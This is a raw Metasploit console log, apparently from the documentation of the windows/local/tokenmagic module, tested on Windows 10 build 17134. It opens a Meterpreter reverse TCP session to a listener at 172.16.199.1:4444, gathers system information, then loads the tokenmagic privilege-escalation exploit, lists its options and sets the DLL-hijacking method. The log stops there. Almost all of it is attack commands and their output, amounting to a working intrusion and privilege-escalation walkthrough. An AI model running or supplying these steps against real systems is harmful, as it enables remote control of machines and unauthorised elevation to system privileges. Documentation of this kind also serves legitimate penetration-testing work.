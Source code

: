 ### Tested on Windows 10 x64 1803 (Build 17134) via DLL Hijacking
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.16.199.1
LHOST => 172.16.199.1
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444 
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.135:49867) at 2021-05-07 14:21:07 -0400

meterpreter > sysinfo
Computer        : DESKTOP-O5RD7G3
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use windows/local/tokenmagic
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/tokenmagic) > show options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   JOB_WAIT_TIME     5                yes       Time to wait for the tokenmagic script to run before starting the USO service to execute the uploaded payload, in seconds
   METHOD            SERVICE          yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
   SERVICE_FILENAME  MFOCANMqe        no        Filename for Service Payload (%RAND% by default).
   SERVICE_NAME      VElyD            no        Service Name to use (%RAND% by default).
   SESSION                            yes       The session to run this module on.
   WRITABLE_DIR                       no        Location of file to overwrite (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/local/tokenmagic) > set METHOD DLL
METHOD => DLL
```
